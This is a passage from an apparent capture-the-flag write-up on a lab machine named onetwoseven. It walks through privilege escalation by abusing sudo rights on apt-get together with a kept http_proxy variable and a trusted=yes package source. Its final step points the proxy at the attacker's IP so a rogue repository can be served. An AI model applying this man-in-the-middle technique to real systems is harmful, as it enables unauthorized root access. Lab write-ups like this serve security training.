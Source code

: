 ```bash
www-admin-data@onetwoseven:/var/www/html-admin/addons$ sudo -l
sudo -l
Matching Defaults entries for www-admin-data on onetwoseven:
    env_reset, env_keep+="ftp_proxy http_proxy https_proxy no_proxy",
    mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-admin-data may run the following commands on onetwoseven:
    (ALL : ALL) NOPASSWD: /usr/bin/apt-get update, /usr/bin/apt-get upgrade
```

We see that we can execute `apt update`and `apt upgrade`as `sudo`, we can then check the `apt`configuration file:

```bash
www-admin-data@onetwoseven:/etc/apt$ ls
ls
apt.conf.d        preferences.d  sources.list.d
listchanges.conf  sources.list   trusted.gpg.d
```

And inside of the directory `sources.list.d/`we see one unusual source:

```bash
www-admin-data@onetwoseven:/etc/apt/sources.list.d$ cat on
cat onetwoseven.list 
# OneTwoSeven special packages - not yet in use
deb [trusted=yes] http://packages.onetwoseven.htb/devuan ascii main
```

Which means that this will be using the package at `http://packages.onetwoseven.htb/devuan`--> we can try and exploit this to make it use our own repository!! 

### Man in the middle attack
We can first export the `http_proxy`environment variable and set it to our ip:

```bash
www-admin-data@onetwoseven:/etc/apt/sources.list.d$ export http_proxy=http://10.10.14.153:8888
10.14.153:8888oxy=http://10.1
www-admin-data@onetwoseven:/etc/apt/sources.list.d$ echo $http_proxy
echo $http_proxy
http://10.10.14.153:8888
```

